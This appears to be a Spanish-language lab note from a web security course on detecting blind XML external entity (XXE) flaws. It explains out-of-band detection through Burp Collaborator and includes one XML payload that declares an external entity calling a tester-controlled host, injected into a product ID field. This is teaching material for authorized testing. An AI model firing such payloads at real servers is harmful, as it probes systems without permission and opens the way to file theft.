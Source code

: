 En esta clase continuamos trabajando con vulnerabilidades de tipo XXE, centrándonos en el escenario más complejo: una XXE ciega. En este caso, el servidor procesa XML pero no devuelve en la respuesta ningún dato que evidencie la ejecución del payload, lo que impide confirmar la explotación de forma directa.

Para detectar si la vulnerabilidad existe, utilizamos una entidad externa que hace que el parser XML intente resolver un dominio controlado por nosotros. Aprovechamos Burp Collaborator, que nos permite observar si se han producido solicitudes DNS o HTTP hacia un subdominio generado por su plataforma. Si vemos actividad en Collaborator, confirmamos que el servidor está procesando nuestra entidad y realizando conexiones externas, lo cual demuestra la existencia de la XXE. Esta técnica es fundamental en situaciones donde no hay retroalimentación visible desde la aplicación.

-----

Hacemos lo mismo del ejercicio anterior, para saber si hay un XXE, pero vemos que no refleja nada, lo cual, debemos de hacerlo a ciegas, para ello, debemos de realizar una peticion DNS al collaborator a traves del XXE

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://burpsuite-collaborator/" > ]>
<productId>
&xxe;
</productId>
```

